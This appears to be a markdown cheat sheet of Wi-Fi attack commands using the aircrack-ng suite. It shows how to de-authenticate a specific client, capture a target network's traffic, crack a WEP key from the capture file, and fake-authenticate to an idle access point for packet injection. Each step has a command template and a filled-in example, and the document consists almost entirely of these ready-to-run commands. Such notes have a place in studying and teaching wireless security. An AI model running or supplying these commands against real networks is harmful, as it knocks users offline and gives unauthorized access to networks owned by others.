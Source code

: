 To de-authenticate a specific client in a network
```
> aireplay-ng --deauth [number of deauth packets] -a [AP] -c [target] [interface]

Example: 

> aireplay-ng --deauth 1000 -a 11:22:33:44:55:66 -c 00:AA:11:22:33:44 mon0

```

# Gaining Access To Encrypted Networks 

## WEP Cracking 

using a random 24-bit Initializing Vector (IV), 
in a busy network we can collect more than two packets with the same IV.

### CASE 1: BASE CASE

Log the traffic from the target network
```
> airodump-ng --channel [channel] --bssid [bssid] --write [file-name] [interface]

Example: 

> airodump-ng –channel 6 –bssid 11:22:33:44:55:66 –write out mon0
```

try to crack the key using the capturefile
```
> aircrack-ng [file-name]

Example: 

> aircrack-ng out.cap
```

### CASE 2: AP is idle or no clients associated with AP (packet injection)

we have to authenticate our wifi card with the AP, because AP's ignore 
any requests that come from devices that are not associated with the AP
```
> aireplay-ng --fakeauth 0 -a [targe MAC] -h [your MAC] [interface]`

Example: 

> aireplay-ng --fakeauth 0 -a E0:69:95:B8:BF:77 -h 00:c0:ca:6c:ca:12 mon0
```

	If this fake authentication was successful the value under the
	“AUTH” column in airodump-ng will change to “OPN”
